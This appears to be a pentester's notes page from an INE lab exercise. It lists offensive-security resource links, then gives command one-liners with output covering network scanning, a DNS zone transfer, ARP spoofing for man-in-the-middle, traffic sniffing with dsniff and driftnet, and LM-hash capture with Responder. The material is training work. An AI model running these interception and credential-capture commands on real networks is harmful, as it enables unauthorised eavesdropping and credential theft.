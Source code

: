 1. https://github.com/rewardone/OSCPRepo/tree/master
	1. https://github.com/rewardone/OSCPRepo/tree/master/CheetSheets/Field%20Manuals
2. https://hackertarget.com/cyber-security-training/
3. https://github.com/Zeyad-Azima/Offensive-Resources
4. https://github.com/enaqx/awesome-pentest
5. https://attack.mitre.org/
6. https://github.com/nixawk/pentest-wiki/blob/master/3.Exploitation-Tools/README.md

# onelinery

```bash
$ arp-scan -I eth1 172.16.5.0/24
172.16.5.1
172.16.5.5
172.16.5.6
172.16.5.10
```

```bash
$ nmap -sn -PR 172.16.5.*

172.16.5.1
172.16.5.5
172.16.5.6
172.16.5.10
172.16.5.101                                                             
```

```bash
nmap -p 53 172.16.5.1,5,6,10,101
                                               
PORT   STATE SERVICE   
53/tcp open  domain  
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)                                
```

```bash
$ nslookup 172.16.5.10 172.16.5.10
10.5.16.172.in-addr.arpa        name = ine-labserver.sportsfoo.com.16.172.in-addr.arpa.
```
```bash
$ dig axfr sportsfoo.com @172.16.5.10

; <<>> DiG 9.16.15-Debian <<>> axfr sportsfoo.com @172.16.5.10
;; global options: +cmd
sportsfoo.com.          86400   IN      SOA     ine-labserver.sportsfoo.com. hostmaster.sportsfoo.com. 2011071001 3600 1800 604800 86400
sportsfoo.com.          86400   IN      NS      ine-labserver.sportsfoo.com.
ftp.sportsfoo.com.      86400   IN      A       10.10.10.6
ine-labserver.sportsfoo.com. 86400 IN   A       172.16.5.10
intranet.sportsfoo.com. 86400   IN      A       10.10.10.10
wkst-finance.sportsfoo.com. 86400 IN    A       172.16.5.6
wkst-techsupport.sportsfoo.com. 86400 IN A      172.16.5.5
sportsfoo.com.          86400   IN      SOA     ine-labserver.sportsfoo.com. hostmaster.sportsfoo.com. 2011071001 3600 1800 604800 86400
```
```bash
$ traceroute 10.10.10.6             
traceroute to 10.10.10.6 (10.10.10.6), 30 hops max, 60 byte packets
 1  172.16.5.1 (172.16.5.1)  0.519 ms  0.427 ms  0.397 ms
 2  10.10.10.6 (10.10.10.6)  0.676 ms  0.649 ms  0.623 ms
```

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ arpspoof -i eth1 -t 172.16.5.5 -r 172.16.5.1
$ arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.5
```

```bash
$ dsniff -i eth1 # see if there are any images in the traffic
$ driftnet -i eth1
```

```
$ responder -I eth1 --lm
# /usr/share/responder/logs
```